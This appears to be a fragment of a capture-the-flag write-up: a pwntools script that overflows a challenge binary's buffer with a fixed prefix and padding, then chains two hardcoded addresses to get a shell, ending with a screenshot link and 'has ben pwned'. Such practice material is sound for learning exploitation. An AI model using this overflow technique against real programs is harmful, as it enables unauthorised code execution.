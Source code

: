 ```
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
#padding = 24


payload = flat(
    b'CodingInAssemblyIsFun\0',
    b'A' * 242,
    p64(0x000000000040101a),
    p64(0x00000000004012fa),  
)

# Save the payload to file
write('payload', payload)

# Send the payload

io.sendline(payload)

# Receive the flag
io.interactive()
```
Result

<img width="955" alt="image" src="https://github.com/Langhere/WriteUpCTFlocal/assets/142018203/6555b1c1-70fe-400b-a7ac-e46f01c7b49a">

has ben pwned!!🗿
